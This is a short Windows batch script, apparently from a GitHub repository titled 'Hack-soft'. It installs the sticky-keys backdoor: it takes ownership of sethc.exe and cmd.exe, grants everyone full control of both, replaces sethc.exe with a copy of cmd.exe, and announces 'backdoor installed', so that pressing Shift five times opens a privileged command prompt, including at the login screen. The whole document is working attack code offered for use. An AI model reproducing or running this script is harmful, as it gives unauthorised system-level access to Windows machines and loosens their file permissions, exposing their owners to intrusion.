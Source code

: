 # Hack-soft

@echo off

takeown /f "C:\Windows\System32\sethc.exe"

takeown /f "C:\Windows\System32\cmd.exe"

icacls "C:\Windows\System32\sethc.exe" /grant everyone:F

icacls "C:\Windows\System32\cmd.exe" /grant everyone:F

md "C:/backdoorbackup"

copy "C:\Windows\System32\sethc.exe" "C:/backdoorbackup/sethc.exe"

del "C:\Windows\System32\sethc.exe"

copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\sethc.exe"

cls

echo backdoor installed. press shift five times or (alt+shift+prtsc) to open.

pause

